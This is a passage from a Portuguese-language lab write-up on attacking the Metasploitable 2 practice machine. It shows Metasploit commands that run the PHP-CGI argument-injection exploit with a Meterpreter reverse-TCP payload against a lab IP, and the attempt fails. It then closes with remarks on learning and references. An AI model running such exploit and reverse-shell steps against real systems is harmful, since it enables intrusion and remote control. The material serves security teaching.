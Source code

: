 ```bash
msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
```

Configurando o alvo:

```bash
msf6 exploit(multi/http/php_cgi_arg_injection) > set RHOSTS 192.168.1.30
RHOSTS => 192.168.1.30
```

Por fim, vamos executar o exploit.

```bash
msf6 exploit(multi/http/php_cgi_arg_injection) > exploit

[*] Started reverse TCP handler on 172.18.18.105:4444
[*] Exploit completed, but no session was created.
```

Infelizmente, o exploit falhou em minha máquina. De acordo com [este vídeo](https://www.youtube.com/watch?v=HH7DPfYTfoI), após injetar um argumento malicioso na solicitação CGI e explorar a vulnerabilidade no PHP, obteríamos um shell reverso na máquina alvo, permitindo controle remoto e acesso a informações. Veja um screenshot deste vídeo:

![Figura 12](/images/gabriel-breno-post-metasploitable2/exploit_php.png)

## Considerações finais 

Neste blog post, vimos que a máquina Metasploitable 2 é uma ótima oportunidade para quem deseja aprender sobre segurança cibernética, oferecendo uma ampla gama de vulnerabilidades para explorar. Além disso, o Metasploit Framework também se destaca como uma ferramenta para esse aprendizado, facilitando a identificação e exploração de falhas nesses ambientes. 

## Referências

Rapid7. **Metasploitable 2 Exploitability Guide**. Disponível em: https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/

Rapid7. **Metasploit Documentation**. Disponível em: https://docs.metasploit.com

OffSec. **Scanner FTP Auxiliary Modules**. Disponível em: https://www.offsec.com/metasploit-unleashed/scanner-ftp-auxiliary-modules/

InfoSec Pat. **How To Hack and Exploit Port 80 HTTP Metasploitable 2**. Disponível em: https://www.youtube.com/watch?v=HH7DPfYTfoI